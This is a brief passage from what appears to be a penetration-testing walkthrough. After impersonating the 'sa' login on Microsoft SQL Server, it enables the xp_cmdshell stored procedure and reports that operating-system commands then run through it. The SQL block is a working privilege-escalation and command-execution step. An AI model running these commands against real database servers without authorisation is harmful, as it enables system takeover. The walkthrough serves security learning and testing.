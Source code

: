 As syadmin user we can now enable `xp_cmdshell`:

```sql
EXECUTE AS LOGIN = 'sa';
EXEC('sp_configure "show advanced options", 1; reconfigure;')
EXEC('sp_configure "xp_cmdshell", 1; reconfigure;')
REVERT
```

<figure><img src="../../.gitbook/assets/image (791).png" alt=""><figcaption></figcaption></figure>

Now that we are executing command as sa, we try to exec `xp_cmdshell` stored procedure and it works like a charm!

<figure><img src="../../.gitbook/assets/image (790).png" alt=""><figcaption></figcaption></figure>
